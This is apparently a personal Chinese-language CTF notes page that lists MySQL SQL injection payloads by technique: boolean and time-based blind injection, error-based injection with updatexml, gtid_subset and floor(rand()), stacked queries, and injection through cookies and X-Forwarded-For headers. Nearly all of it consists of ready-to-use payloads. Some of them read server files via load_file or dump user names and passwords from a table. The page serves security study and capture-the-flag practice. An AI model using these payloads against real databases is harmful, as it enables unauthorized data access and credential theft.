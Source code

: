 # 布尔回显注入
	- https://www.anquanke.com/post/id/170626
	- `where id=1 and 1=1`
	- `where id=1!=2!=(database()regexp('.'))!=0`
	- `1&&((select 1,'z')>(select * from f1ag_1s_h3r3_hhhhh))`
	- `if(length(database())<0, '1', ST_X('willerror'))`
	- `exp(710-（1>1))`
- # 布尔无回显注入
	- `where id=1 and if(length(database())>5, sleep(2), 1)`
- # 报错注入
	- [大佬的文章](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI/blob/master/1-7-%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5.md)
	- `where id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,30)),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,database(),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,0x61,0x7e),1)#`
	- `') or gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+`
	- `select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`
	- `exp(710)`
	- `exp(~1)`
- # 堆叠注入
	- `where id=1; show tables;`
- # 注入方向
	- 向 cookie 注入
	- 向 x-forward-for 注入
- # with rollup万能密码
	- [[CTFWEB/WP/SWPU2019 Web6]]
- 二次注入
- 宽字节
- 脚本批量注入